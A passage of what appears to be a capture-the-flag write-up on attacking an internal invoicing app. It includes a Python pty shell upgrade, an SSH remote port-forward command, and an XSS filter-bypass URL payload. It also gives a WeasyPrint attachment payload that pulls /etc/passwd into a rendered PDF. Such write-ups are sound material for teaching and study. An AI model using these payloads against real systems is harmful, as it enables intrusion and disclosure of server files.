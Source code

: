 and then `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a TTY, I realize that we still on a container and scanning the network give me other internal application called `Accounting` and i create remote port forwarding using an ssh
```
ssh -v -o PreferredAuthentications=password -o PubkeyAuthentication=no -o StrictHostKeyChecking=no -fN -R IP_ADDR:8663:172.28.0.3:80 abdilahrf@IP_ADDR
```

[ACCOUNTING]

And again the application is behave diferently when i try to inject the parameter password with SQL Injection, after 2 days for looking any working exploits i just realize another way to get in to the application in [http://IP_ADDR:8663/invoices](http://IP_ADDR:8663/invoices) they have an HTML Comment to [http://IP_ADDR:8663/invoices/new](http://IP_ADDR:8663/invoices/new) which doesn't ask for any authentication, so the authentication is an rabbit hole 100%.

after a while i found that the application is detecting substring of `script` and remove the string i can abuse that to bypass any filter used in the application like close tag filter and even bypass the chrome auditor. 

to close tag i can use `<script/style>` so we can close the style tag and do something else, on  the preview i got an xss using this payload :
```
http://IP_ADDR:8663/invoices/preview?d={%20%22companyName%22:%20%22Hackerone%22,%20%22email%22:%20%22administrator@hackerone.com%22,%20%22invoiceNumber%22:%20%221337%22,%20%22date%22:%20%221337-1337-01%22,%20%22items%22:%20[%20[%221%22,%20%22%22,%20%22%22,%20%2210%22]%20],%20%22styles%22:%20{%20%22body%22:%20{%20%22background-color%22:%20%22white%22,%20%22%3Cscript/style%3E%3Cscrscriptipt%3Ealescriptrt(1337);%3Cscript/scrscriptipt%3E%3Ch2%20id=%27result%27%3Ex%3Cscript/h2%3E%22:%22x%22%20}%20}%20}
```

tried to embed an image and i got response from the server which say the user agent `weasyprint 44`

[WEASYPRINT]

after reading the github repository to get an idea how `weasyprint` work i found that, they didn't support javascript at all so the attack vector using javascript is gone, and also for render the `SVG` they using an `CairoSVG` which is already use `defusedxml` so we cannot do an `XXE` too here.

struggling around and found that we able to abuse the feature from `weasypdf` 

[FEATURE]

that feature is allow us to embed any file to the pdf, so i try to embed /etc/passwd using this payload :

```
{
  "companyName": "Hackerone",
  "email": "administrator@hackerone.com",
  "invoiceNumber": "1337",
  "date": "1337-1337-01",
  "items": [
    [
      "1",
      "",
      "",
      "10"
    ]
  ],
  "styles": {
    "body": {
      "background-color": "white",
      "<script/style><a rel='attachment' href='file:///etc/passwd'>file<script/a><style>*{background-image": "url('')"
    }
  }
}
```
```
```